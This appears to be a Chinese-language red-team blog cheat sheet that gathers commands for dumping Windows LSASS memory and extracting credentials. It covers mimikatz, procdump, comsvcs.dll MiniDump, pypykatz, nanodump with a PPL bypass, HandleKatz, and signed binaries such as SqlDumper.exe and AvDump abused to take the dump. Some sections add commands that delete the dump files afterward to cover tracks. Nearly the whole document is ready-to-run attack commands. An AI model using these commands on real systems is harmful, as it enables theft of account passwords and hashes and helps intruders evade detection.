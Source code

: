 ```yaml
---
layout: post
title: dump lsa聚合
category: ['lsadump','Done']

---
```




## 解密lsass内存

```
# mimikatz
sekurlsa::Minidump lsassdump.dmp
sekurlsa::logonPasswords full
```



## wce导出hash

```
# 仅支持Windows XP，2003，Vista，7、2008和Windows 8

wce.exe -o file.txt
wec.exe
```



## Procdump

```
# 管理员cmd
procdump  -accepteula -ma lsass.exe lsass_dump

procdump -accepteula -ma 720 lsass.dmp

```



## comsvcs.dll

```
# powershell运行
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass.dmp full

# 清理
Remove-Item $env:TEMP\lsass.dmp -ErrorAction Ignore
```



## dumpert

```
# exe
Outflank-Dumpert.exe

# dll
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump

```



## 任务管理器转存

![image-20220409122415996](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220409122415996.png)



## mimikatz

```
# cmd
mimikatz_exe "sekurlsa::minidump lsass.dump" "sekurlsa::logonpasswords full" exit
```



## pypykatz

```
# python3
pip install pypykatz

# Parsing minidump file of the LSASS process:
# 从dmp里解密
pypykatz lsa minidump <minidump file>

# Dumping LIVE system LSA secrets:
pypykatz live lsa
```



## Out-Minidump.ps1

```
import-module Out-Minidump.ps1
get-process lsass | Out-Minidump

Remove-Item $env:TEMP\lsass_*.dmp -ErrorAction Ignore
```

![image-20220409123740776](https://raw.githubusercontent.com/woaiqiukui/BlogPic/main/pics/image-20220409123740776.png)



## dump64.exe

一个lolbins：``C:\Program Files (x86)\Microsoft Visual Studio\Installer\Feedback\``

```shell
"C:\Program Files (x86)\Microsoft Visual Studio\Installer\Feedback\dump64.exe" <pid> c:\users\zteam\Desktop\out.dmp
```



## SqlDumper.exe

lolbins：``C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe``

```
# Full dump file
"C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x01100

# Mini-dump file
"C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x0120

# Mini-dump file that includes indirectly referenced memory.
"C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x0128

# Filtered dump file
"C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x8100
```



## nanodump

https://github.com/helpsystems/nanodump

```
# fork
beacon> nanodump --fork --write C:\lsass.dmp

# MalSecLogon
beacon> nanodump --malseclogon --dup --fork --binary C:\Windows\notepad.exe --valid


# ppl bypass
beacon> nanodump_ppl -v -w C:\Windows\Temp\lsass.dmp
```





## HandleKatz

https://github.com/codewhitesec/HandleKatz

```
loader.exe --pid:744 --outfile:dump.obfuscated
```

loader需要自己改改



## DumpMinitool

又一个lolbins：``C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\Extensions\TestPlatform\Extensions\DumpMinitool.exe``

```
DumpMinitool.exe --file c:\users\public\111.txt --processId 744 --dumpType Full

# 解密
python3 Decoder.py -input dump.obfuscated -output 111.txt

# 可以用pypykatz读取
pypykatz lsa minidump 111.txt
```



## AvDump

AvDump.exe是Avast杀毒软件中自带的一个程序，可用于转储指定进程（lsass.exe）内存数据，它带有Avast杀软数字签名。

```
AvDump.exe --pid 980 --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file lsass.dmp
```

